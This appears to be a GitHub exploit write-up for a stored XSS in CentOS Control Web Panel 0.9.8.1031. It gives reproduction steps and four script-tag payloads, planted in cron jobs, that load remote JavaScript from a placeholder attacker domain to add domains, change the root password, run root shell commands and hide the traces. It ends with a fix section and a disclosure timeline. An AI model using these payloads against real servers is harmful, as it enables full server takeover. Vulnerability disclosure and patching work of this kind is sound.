 Exploiting an XSS vulnerability in the CWP control panel and escalating the attack to change the root password...

# Information

```
# Exploit Title       : CWP (CentOS Control Web Panel) Version 0.9.8.1031 - XSS to full root takeover
# Date                : 7 january 2021
# Exploit Author      : Chokri B.A.
# Vendor Homepage     : https://control-webpanel.com/
# Software Link       : Not available, user panel only available for lastest version
# Version             : 0.9.8.1031
# Tested on           : CentOS 7 / CentOS 6
# CVE                 : #
```

# Description
A simple user can add/delete/modify any option on behalf of the root user, and even change the root's password via a stored XSS vulnerability.

#  Steps to Reproduce
1. Login into the CentOS Web Panel using user credential
2. Create a new cron job using your prefered XSS payload.
3. Login as root and navigate to the list of cronjobs
4. the XSS payload will get executed.

#  Escalating
I've created 2 examples on how you can escalate this attack to take control of the full server.

1. <b>PayloadAddDomain.js</b> : add this code as your cronjob, when the root user list the cronjobs, a new domain name will be added under the choosen user.
``` 
<script type="text/javascript" src="https://yourevilwebsite.tld/PayloadAddDomain.js"></script>
```


2. <b>PayloadChangeRootPass.js</b> add this code as your cronjob, when the root user list the cronjobs, you will be able to change to root's password and take control of the full server.
``` 
<script type="text/javascript" src="https://yourevilwebsite.tld/PayloadChangeRootPass.js"></script>
```

3. <b>PayloadExecCmd.js</b> add this code as your cronjob, when the root user list the cronjobs, you will be able to execute any shell command as the root user, you can create a new user with root privileges for examples ;)
``` 
<script type="text/javascript" src="https://yourevilwebsite.tld/PayloadExecCmd.js"></script>
```
4. <b>PayloadRemoveCron.js</b> add this code as your cronjob, when the root user list the cronjobs, the malicious code will be removed automatically from the cronjob's list. you can conbine this code wity any of the other codes to execute whatever you want and delete the XSS payload to be more stealthy.
``` 
<script type="text/javascript" src="https://yourevilwebsite.tld/PayloadRemoveCron.js"></script>
```

5. You can perform any action you want as the root user. The only limit is your imagination....

#  Solution - Fix & Patch
The vulnerability can be patched by a secure parse and encode of the vulnerable input fields.
Disallow usage of special chars and restrict the parameter input to prevent application-side script code injection attacks.
Filter in the output error or the item listing the vulnerable location were the code executes.


#  Timeline

```
2021-01-07: Discovered the bug
2021-01-08: Reported to vendor
#: Vender accepted the vulnerability
#: The vulnerability has been fixed
#: Published
```

#  Demo
[![Video Demo](https://img.youtube.com/vi/bE7iZRjwIXk/0.jpg)](https://www.youtube.com/watch?v=bE7iZRjwIXk)
